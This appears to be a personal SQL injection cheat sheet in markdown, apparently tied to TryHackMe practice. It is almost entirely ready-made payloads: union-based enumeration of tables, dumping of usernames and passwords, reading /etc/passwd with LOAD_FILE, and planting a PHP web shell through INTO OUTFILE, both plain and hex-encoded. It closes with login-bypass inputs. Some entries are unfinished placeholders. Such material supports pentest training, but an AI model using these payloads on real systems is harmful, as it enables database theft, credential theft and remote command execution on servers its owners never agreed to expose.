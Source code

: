 # uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```
```
sqlite_version()
```
> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```
> then go to http://example.com/shell.php?cmd=`<exec>`

> uploading file Says 'Hello from SQLI'
```
<VALUE>'union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -
```
>then exec: `curl http://example/shell.php`
# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
> INPUT
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='

(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable')
(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable)
```
# read files
1: 
```
<VALUE>'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
# command shell
```
<VALUE>'union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Payload in hex
```
local@local:~/Documents/tryhackme/yearofthedog/logs$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> select hex('<?php system($_GET["cmd"]) ?>');
+------------------------------------------------------------+
| hex('<?php system($_GET["cmd"]) ?>')                       |
+------------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E |
+------------------------------------------------------------+
1 row in set (0.00 sec)
```
> then exec:
```
<VALUE>'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Login Page
> try those injection
```
username：admin'
password: 1
- Payload
username: admin'-- -
password: 1

<<SOON>>
```

